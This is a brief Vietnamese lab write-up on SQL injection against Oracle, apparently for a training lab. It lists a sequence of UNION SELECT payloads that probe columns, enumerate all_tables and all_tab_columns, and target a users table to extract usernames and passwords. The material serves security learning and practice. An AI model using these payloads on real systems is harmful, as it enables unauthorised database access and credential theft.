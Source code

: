 ### Lab: SQL injection attack, listing the database contents on Oracle
Nhiệm vụ của bài lab: Sử dụng UNION Attack để lấy các thông tin từ information Schema (nơi chứa thông tin về database) để lấy thông tin bảng chứa username, password và thực hiện lấy thông tin username, password với database của Oracle
' UNION SELECT ‘abc’, ‘abc’ FROM dual –
 ![alt text](image-45.png)
' UNION SELECT 'lmao', table_name from all_tables –
' UNION SELECT tablespace_name, table_name from all_tables –
 ![alt text](image-46.png)
' UNION SELECT  column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS_WIEJND'—